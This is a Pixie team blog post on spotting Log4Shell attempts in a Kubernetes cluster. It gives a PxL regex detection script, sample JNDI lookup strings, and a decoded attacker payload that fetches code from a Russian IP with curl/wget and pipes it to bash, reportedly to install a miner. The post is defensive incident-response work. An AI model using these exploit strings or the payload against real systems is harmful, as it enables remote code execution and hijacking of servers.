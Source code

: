 ```yaml
---
path: '/did-i-get-owned-by-log4shell'
title: 'Did I get owned by Log4Shell?'
date: 2021-12-10T06:00:00.000+00:00
featured_image: sos-emergency-exit.png
categories: ['Pixie Team Blogs']
authors: ['Omid Azizi', 'James Bartlett', 'Vihang Mehta']
emails: ['oazizi@pixielabs.ai', 'jamesbartlett@pixielabs.ai', 'vihang@pixielabs.ai']
---
```


<alert severity="error">
Are your <a href="https://www.lunasec.io/docs/blog/log4j-zero-day/#who-is-impacted">services impacted</a> by this exploit? 
If so, start with the <a href="https://www.lunasec.io/docs/blog/log4j-zero-day/#permanent-mitigation">mitigation</a> first.
</alert>

Earlier today, [news](https://www.lunasec.io/docs/blog/log4j-zero-day/) broke about a serious 0-day exploit in the popular Java logging library `log4j`. The exploit – called `Log4Shell` – allows remote code execution (RCE) by entering certain strings into the log statement. This can be a serious security vulnerability if a server logs the inputs it receives over a public endpoint.

In this post, we'll show how we used Pixie to quickly check for `Log4Shell` attacks in our Kubernetes cluster.

## How Does Log4Shell Work?

In a nutshell, the `Log4Shell` exploit means that if a string containing a substring of the form `${jndi:ldap://1.1.1.1/a}`  is logged, then you may be exposed to a RCE attack. When this string is logged, `log4j` will make a request to the IP, and get a reference to a class file which will then get loaded into your Java application with JNDI. This means your Java application could then be used to execute arbitrary code of the attacker's choice.

Our goal is not to go into too much detail on `Log4Shell`, since others have already done a great job of that. Instead we're going to focus on how Pixie helped us identify whether we were under attack.

For more details on `Log4Shell`, you can check out this blog, which does a good job of explaining the exploit and mitigation: https://www.lunasec.io/docs/blog/log4j-zero-day.

## Are we being attacked?

We don't deploy Java services at Pixie so we were confident that this wasn't an issue for us. But the team was still curious about whether anyone was trying to attack us. Within minutes, a member of our team, James, put out this [PxL script](https://docs.px.dev/tutorials/pxl-scripts/) which checks for instances of the `Log4Shell` exploit:

```python
import px

# Get all HTTP requests automatically traced by Pixie.
df = px.DataFrame('http_events')

# Get the pod the HTTP request was made to.
df.pod = df.ctx['pod']

# Check HTTP requests for the exploit signature.
re = '.*\$.*{.*j.*n.*d.*i.*:.*'
df.contains_log4j_exploit = px.regex_match(re, df.req_headers) or px.regex_match(re, df.req_body)

# Filter on requests that are attacking us with the exploit.
df = df[df.contains_log4j_exploit]

df = df[['time_', 'remote_addr', 'remote_port', 'req_headers', 'req_method', 'req_path', 'pod']]

px.display(df)
```

[log4j only needs to log a string like](https://www.lunasec.io/docs/blog/log4j-zero-day/#example-vulnerable-code) `${jndi:ldap://127.0.0.1/a}` to request and eventually execute a returned payload. [Pixie traces all the HTTP requests](https://docs.px.dev/about-pixie/data-sources/) in your Kubernetes cluster, and stores them for future querying. So in our script, we simply search over the `http_events` table for requests that contain the attack signature -  the `jndi` string. [^1]

Running the script on our cluster, we immediately noticed some `Log4Shell` traffic:

<svg title="Pixie automatically traces all HTTP traffic flowing through your K8s cluster. Checking the HTTP request headers for the exploit signature exposes numerous attack requests on our staging cluster." src='jndi-http-logs.png' />

<svg title="The contents of one of the HTTP attack requests. Note the 'jndi' exploit signature with originating IP address." src='jndi-referrer-details.png' />

The exploit requests were hitting our public cloud-proxy service, where the User-Agent included the exploit string. In this case, the attacker hopes that we use log4j to log the User-Agent value. We investigated the originating IP address, `45.155.205.233` and discovered that it was based in Russia.

Another team member, Vihang, then figured out that the payload of the exploit string is the following:

```bash
$ base64 -d <<< "KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC8zNC4xMDIuMTM2LjU4OjQ0M3x8d2dldCAtcSAtTy0gNDUuMTU1LjIwNS4yMzM6NTg3NC8zNC4xMDIuMTM2LjU4OjQ0Myl8YmFzaA=="
(curl -s 45.155.205.233:5874/34.102.136.58:443||wget -q -O- 45.155.205.233:5874/34.102.136.58:443)|bash%
```

The situation around the `Log4Shell` exploit is still evolving, but [tweets](https://twitter.com/GossiTheDog/status/1469322120840708100) indicate that this payload contains a Bitcoin miner.

## Are we leaking?

Now we know that some attacker tried to scan us with the `Log4Shell` exploit. Our next question was whether the attacker succeeded. Again, Pixie doesn’t rely on Java services, but we did want to know how a Java user could detect a successful attack.

A successful exploit requires the attacker to “phone home” with sensitive information, so we need to check if any connections were made back to the `45.155.205.233` IP that we found in the attack.

We can use Pixie’s existing `px/outbound_conns` script to check for this. This script shows a list of connections from our pods made to endpoints outside the k8s cluster. This script has an optional IP filter field that we populate to see if any connections (regardless of protocol) are made to that IP.

In this case, when we run the script, we see that we have no such connections, as expected:

<svg title="Using the `px/outbound_conns` script to check for all outbound connections from our pods, filtered by the IP address of the attacker shows that no connections were returned to the attacking IP." src='outboundconns.png' />

While we caught no such instances, for a user who was using Java, any outbound connections to the attacker would be recorded.

## Check if your cluster is being attacked

<alert severity="warning">
Detecting these exploits is a moving target and as such the lack of any results from these scripts doesn't guarantee that your cluster isn't being attacked some other way.
Whether or not you see any results from this script, we strongly recommend following all mitigation steps ASAP.
</alert>

When a 0-day exploit is published, there’s a rush by attackers to take advantage. At the same time, developers of cloud services are scrambling to see if they are exposed and to patch any vulnerabilities.

To quickly check if your cluster is being attacked, you can:

1. [Install Pixie](https://docs.px.dev/installing-pixie/install-guides/) on your Kubernetes cluster.
2. Save the following script as `log4shell.pxl`. [^2]

```python
import px

# Get all HTTP requests automatically traced by Pixie.
df = px.DataFrame('http_events')

# Get the pod the HTTP request was made to.
df.pod = df.ctx['pod']

# Check HTTP requests for the exploit signature.
re = '.*\$.*{.*j.*n.*d.*i.*:.*'
df.contains_log4j_exploit = px.regex_match(re, df.req_headers) or px.regex_match(re, df.req_body)

# Filter on requests that are attacking us with the exploit.
df = df[df.contains_log4j_exploit]

df = df[['time_', 'remote_addr', 'remote_port', 'req_headers', 'req_method', 'req_path', 'pod']]

px.display(df)
```

3. Run the custom PxL script using Pixie’s [Live CLI](https://docs.px.dev/using-pixie/using-cli/#use-the-live-cli), using the -f flag to provide the script’s filename:

```bash
px live -f <path to script>/log4shell.pxl
```

If you discover that you are being attacked, you can read about mitigation steps [here](https://www.lunasec.io/docs/blog/log4j-zero-day).

[^1]: Unfortunately detecting exploit attempts are a moving target: [scanners are trying new means of obfuscating the exploit](https://twitter.com/sans_isc/status/1469653801581875208).

[^2]: This script looks for the literal `jndi` in the request headers and body. This won't necessarily match obfuscated attacks and you probably want to tweak the script to match more patterns as need be.

Questions? Find us on [Slack](https://slackin.px.dev/) or Twitter at [@pixie_run](https://twitter.com/pixie_run).
